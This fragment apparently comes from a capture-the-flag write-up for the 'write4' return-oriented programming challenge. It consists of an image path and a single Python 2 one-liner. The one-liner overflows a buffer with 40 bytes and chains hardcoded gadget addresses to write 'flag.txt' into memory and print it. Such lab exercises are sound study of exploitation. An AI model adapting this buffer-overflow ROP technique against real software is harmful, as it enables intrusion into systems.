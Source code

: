 


python2 -c "print('A' * 40 + '\x90\x06\x40\x00\x00\x00\x00\x00' + '\x28\x10\x60\x00\x00\x00\x00\x00' + 'flag.txt' + '\x28\x06\x40\x00\x00\x00\x00\x00' + '\x93\x06\x40\x00\x00\x00\x00\x00' + '\x28\x10\x60\x00\x00\x00\x00\x00' + '\x10\x05\x40\x00\x00\x00\x00\x00')" | ./write4